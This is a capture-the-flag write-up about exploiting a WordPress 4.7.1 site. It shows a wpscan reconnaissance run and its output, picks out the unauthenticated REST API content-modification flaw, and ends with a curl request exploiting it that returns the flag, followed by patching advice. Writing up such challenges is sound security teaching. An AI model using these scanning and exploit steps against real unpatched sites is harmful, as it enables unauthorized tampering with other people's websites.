 # PHP Fly Casting

## Brief

```
Goal: Exploit Wordpress.

https://api.voldemortensen.com/
```

# Reconnaissance

Wordpress! Hooray! Wordpress has a reputation for being exploitable - while the Wordpress developers do patch vulnerabilities
as they find them, there are many, many unpatched Wordpress installations out there. There's a reason why the Script Kiddies 
are constantly scanning your non-Wordpress servers for `/wp-admin/`!

So, let's start by finding out more about this Wordpress install. The easiest way is with [`wpscan`](https://wpscan.org/). WPScan
will tell us about the version of Wordpress that is installed, any common plugins, themes, etc., and any known vulnerabilities in
the installed version. It can also try to brute-force the login, but we already know from the contest rules that brute-forcing
is not necessary.

```
wpscan -u https://api.voldemortensen.com
```

```
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9.4
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: https://api.voldemortensen.com/
[+] Started: Fri Sep 28 11:22:36 2018

[+] Interesting header: LINK: <https://api.voldemortensen.com/wp-json/>; rel="https://api.w.org/"
[+] Interesting header: SERVER: Apache/2.4.34 () OpenSSL/1.0.2k-fips
[+] Interesting header: X-POWERED-BY: PHP/7.2.8
[+] robots.txt available under: https://api.voldemortensen.com/robots.txt   [HTTP 200]
[+] XML-RPC Interface available under: https://api.voldemortensen.com/xmlrpc.php   [HTTP 405]
[+] API exposed: https://api.voldemortensen.com/wp-json/   [HTTP 200]
[!] 1 user exposed via API: https://api.voldemortensen.com/wp-json/wp/v2/users
+----+-------+----------------------------------------------+
| ID | Name  | URL                                          |
+----+-------+----------------------------------------------+
| 1  | admin | https://api.voldemortensen.com/author/admin/ |
+----+-------+----------------------------------------------+
[+] Found an RSS Feed: https://api.voldemortensen.com/feed/   [HTTP 200]
[!] Detected 1 user from RSS feed:
+-------+
| Name  |
+-------+
| admin |
+-------+

[+] Enumerating WordPress version ...

[+] WordPress version 4.7.1 (Released on 2017-01-11) identified from meta generator, links opml
[!] 35 vulnerabilities identified from the version number

... Then there's a long list of vulnerabilities ...

[+] WordPress theme in use: twentyseventeen - v1.7

[+] Name: twentyseventeen - v1.7
 |  Latest version: 1.7 (up to date)
 |  Last updated: 2018-08-02T00:00:00.000Z
 |  Location: https://api.voldemortensen.com/wp-content/themes/twentyseventeen/
 |  Readme: https://api.voldemortensen.com/wp-content/themes/twentyseventeen/README.txt
 |  Style URL: https://api.voldemortensen.com/wp-content/themes/twentyseventeen/style.css
 |  Theme Name: Twenty Seventeen
 |  Theme URI: https://wordpress.org/themes/twentyseventeen/
 |  Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Enumerating plugins from passive detection ...
[+] No plugins found passively

[+] Finished: Fri Sep 28 11:22:49 2018
[+] Elapsed time: 00:00:12
[+] Requests made: 87
[+] Memory used: 45.074 MB
```

So, they're running Wordpress 4.7.1, they've got the xmlrpc and wp-json APIs enabled, and there is one user, named `admin`.

So, there are a lot of vulnerabilities here. We can research them, starting with those that look the most interesting.

One that stands out is this one:

```
[!] Title: WordPress 4.7.0-4.7.1 - Unauthenticated Page/Post Content Modification via REST API
    Reference: https://wpvulndb.com/vulnerabilities/8734
    Reference: https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html
    Reference: https://blogs.akamai.com/2017/02/wordpress-web-api-vulnerability.html
    Reference: https://gist.github.com/leonjza/2244eb15510a0687ed93160c623762ab
    Reference: https://github.com/WordPress/WordPress/commit/e357195ce303017d517aff944644a7a1232926f7
    Reference: https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_content_injection
[i] Fixed in: 4.7.2
```

If you read the [Sucuri](https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html) article,
you find out that this vulnerability is partially due to some unvalidated type casting that is happening in the PHP code - hey,
that's like the name of the challenge!  We must be on the right track!

So, let's see if this site is vulnerable:

```
curl 'https://api.voldemortensen.com/wp-json/wp/v2/posts/1?id=2'

{"code":"rest_post_invalid_id","message":"FLAG{DYNAMIC_TYPING_CAN_RUIN_YOUR_DAY}","data":{"status":404}}
```

Hooray!  A flag!

# Takeaways

1. Patch your servers! Unpatched servers are a script kiddie's playground.
2. Validate your inputs!

